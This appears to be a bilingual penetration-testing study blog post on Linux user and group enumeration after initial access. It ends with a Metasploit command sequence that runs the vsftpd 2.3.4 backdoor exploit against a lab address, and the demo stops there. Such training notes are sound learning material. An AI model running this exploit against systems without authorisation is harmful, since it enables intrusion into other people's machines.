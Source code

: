 ```yaml
---
layout: post
title: "Enumerating Users & Groups"
date: "2023-06-11"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Host & Network Penetration Testing
    - Post-Exploitation
---
```


# Linux Local Enumeration
## Enumerating Users & Groups
After gaining initial access to a target system, it is always important to learn more about the system like, what user account you have access to and other user accounts on the system.

What are we looking for?
* Current user & privileges
* Other users on the system
* Groups

## Demo: Enumerating Users & Groups

# Linux 本地枚举
## 枚举用户和组
在获得对目标系统的初始访问权限后，了解更多有关系统的信息非常重要，例如您可以访问哪些用户帐户以及系统上的其他用户帐户。

我们在寻找什么？

* 当前用户和权限
* 系统上的其他用户
* 组

## 演示：枚举用户和组
Kali Linux : 192.72.78.2

Target IP Address : 192.72.78.3
 
```
msfconsole -q
setg RHOSTS 192.72.78.3
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
exploit
```
